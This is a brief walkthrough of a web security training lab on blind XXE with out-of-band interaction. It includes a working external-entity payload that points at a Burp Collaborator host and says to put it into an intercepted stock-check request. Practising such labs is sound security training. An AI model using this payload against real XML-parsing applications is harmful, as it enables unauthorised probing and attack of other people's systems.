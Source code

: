 # Lab: Blind XXE with out-of-band interaction

Open a product page and hit the check stock button. Intercept the request.

Open Burp collaborator and copy the payload. Paste it into an external entity definition:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<subdomain>.burpcollaborator.net"> ]>`

Add this to the XML in the intercepted request and replace the productId with `&xxe;`

Send the request and check collaborator for interactions. This solves the lab.